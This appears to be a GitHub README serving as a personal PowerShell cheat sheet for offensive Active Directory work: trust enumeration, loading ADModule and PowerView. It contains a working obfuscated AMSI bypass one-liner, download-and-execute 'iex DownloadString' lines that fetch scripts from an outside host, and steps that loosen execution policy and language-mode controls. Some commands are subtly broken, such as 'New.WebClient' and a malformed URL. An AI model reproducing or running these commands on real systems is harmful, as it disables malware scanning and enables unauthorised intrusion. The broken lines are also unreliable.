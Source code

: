 # Powershell-Stuff

&nbsp; Powershell stuff  

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass

1. Source 1: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This bypass works*  

2. Test that `amsiinitfailed`, `amsiutils`, `invoke-mimikatz`, etc returns that it isn't the name of a cmdlet, function, etc  

3. Test BURNED bypass: ``sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )``  
&nbsp;&nbsp;&nbsp;&nbsp;- *It should have no return output*  

4. Right way to bypass: `iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")`  

5. Source 2: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

6. Source 3: [0gtweet - powershell.exe params](https://twitter.com/0gtweet/status/1281103918693482496)

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip` or download zip  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`  

8. `Import-Module .\ActiveDirectory.psd1`  

9. `Get-Command -Module ActiveDirectory` should work now  

&nbsp;  

## Execution Policy and Execution Context  

1. `Get-ExecutionPolicy -list`  
&nbsp;&nbsp;&nbsp;&nbsp;- *make sure only unrestricted for CurrentUser and LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *`Set-ExecutionPolicy -Scope <scope_name> -ExecutionPolicy Unrestricted` where <scope_name> can be CurrentUser or LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *Source: [ways to bypass powershell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)*

2. `$ExecutionContext.SessionState`  
&nbsp;&nbsp;&nbsp;&nbsp;- *Make sure LanguageMode is FullLanguage or do `-set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"`*  

&nbsp;  

## Get PowerView  

1. New PowerView: [PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
&nbsp;&nbsp;&nbsp;&nbsp;- *Download zip, or git clone, or copy/paste in `notepad.exe PowerView.ps1` or by `iwr -Uri "https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon/PowerView.ps1" -Outfile PowerView.ps1`*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Right way to download: `iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")`*  

2. `Import-Module .\PowerView.ps1`  

&nbsp;  

## PowerView  

1. Using PowerView tips: [HarmJ0y/Cheatsheets](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf) and [BSidesCharm-PowershellSecurity](https://adsecurity.org/wp-content/uploads/2016/05/BSidesCharm-2016-PowerShellSecurity-Defending-the-Enterprise-from-the-Latest-Attack-Platform-FINAL.pdf)

&nbsp;  
